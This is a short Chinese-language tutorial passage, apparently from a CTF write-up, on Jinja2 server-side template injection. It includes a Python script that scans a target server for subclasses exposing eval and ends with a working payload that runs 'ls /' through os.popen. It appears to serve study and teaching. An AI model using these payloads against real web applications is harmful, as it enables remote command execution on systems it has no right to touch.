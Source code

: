 ```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"

    res = requests.get(url=url, headers=headers)
    if 'eval' in res.text:
        print(i)

# 得到一大堆子类的索引:
#64
#65
#66
#67
#68
#79
#80
#81
#83
#91
#92
#93
#94
#95
#96
#117
#...
```

我们可以记下几个含有eval函数的类：

* warnings.catch_warnings
* WarningMessage
* codecs.IncrementalEncoder
* codecs.IncrementalDecoder
* codecs.StreamReaderWriter
* os.\_wrap\_close
* reprlib.Repr
* weakref.finalize
* ......

所以payload如下：

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```
